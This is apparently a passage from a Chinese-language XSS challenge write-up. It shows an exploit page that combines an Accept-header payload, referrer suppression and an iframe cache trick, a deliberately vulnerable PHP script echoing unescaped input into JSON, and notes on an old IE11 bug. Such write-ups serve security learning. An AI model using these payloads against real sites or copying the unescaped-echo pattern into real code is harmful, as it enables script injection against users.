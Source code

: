 如果请求内容不影响服务端，那么浏览器就会自动加载上一次缓存的请求。

思路就是先用ajax带着头请求一下，然后再用iframe请求。

这里还需要使用meta来禁止referer，不然会被拦截。

exp：
```
<html>
<head>
<meta name="referrer" content="never">
<script>
var request = new Request('http://xianzhi.aliyun.com/xss2.php', {
  method: 'GET',
  mode: 'no-cors',
  redirect: 'follow',
  headers: new Headers({
    'Content-Type': 'text/plain',
    'Accept': 'application/jsona<img src=1 onerror=alert(document.domain)>',
  })
});
fetch(request).then(function() {
  console.log(1);
});
</script>
</head>
<body>
<iframe src="http://xianzhi.aliyun.com/xss2.php"></iframe>
</body>
</html>
```

# 03 json #

```
<?php
header("Content-Type:application/json;charset=utf-8");
header("X-XSS-Protection: 0");
echo '{"errno":0,"error":"","data":{"user":{"id":"2","user_name":"\u4e13\u4e1a\u6295\u8d44\u4ebafh","email":"","mobile":"139****0002","intro":"'.$_GET["value"].'","address":null,"photo":"\/avatar\/000\/00\/00\/02virtual_avatar_big.jpg","user_uuid":"779ab6bd7e2df90c37f1e892","header_url":"\/avatar\/000\/00\/00\/02virtual_avatar_big.jpg","user_id":"2","is_real_name":0,"is_real_name_string":"\u672a\u5b9e\u540d\u8ba4\u8bc1","real_name":"\u5c24\u6654","is_investor":0,"is_leader_investor":1,"cetificate_id":"511********4273","focus_area":["\u91d1\u878d:\u91c7\u8d2d\u7269\u6d41:\u80fd\u6e90\u73af\u4fdd:\u6cd5\u5f8b\u6559\u80b2:"],"third_party":[{"openid":"1212","type":1,"is_band":1},{"openid":"2oiVL4wNxso9ttarGMIoVa1q-w8kU","type":1,"is_band":1}]}}}'
?>
```

这题刚开始的时候是jsonp的，理论上也是可以做的，但是可能jsonp误导了大家，后来题目被改成了json。

问题的核心就在于返回头`application/json`

这个请求头会把所有内容都按照json格式解析，没有任何办法绕过，这里是使用了一个ie11**低版本**的一个bug
